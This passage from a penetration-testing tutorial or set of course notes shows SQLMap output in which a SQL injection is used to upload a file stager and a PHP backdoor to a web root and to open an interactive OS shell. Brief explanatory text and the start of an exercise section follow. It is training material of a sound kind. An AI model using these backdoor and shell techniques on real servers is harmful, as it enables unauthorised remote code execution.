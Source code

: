 ```shell-session
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

As we can see, this time SQLMap successfully dropped us into an easy interactive remote shell, giving us easy remote code execution through this SQLi.

Note: SQLMap first asked us for the type of language used on this remote server, which we know is PHP. Then it asked us for the server web root directory, and we asked SQLMap to automatically find it using 'common location(s)'. Both of these options are the default options, and would have been automatically chosen if we added the '--batch' option to SQLMap.

With this, we have covered all of the main functionality of SQLMap.

# Questions
---

![](Pasted image 20250204180052.png)

## First
---
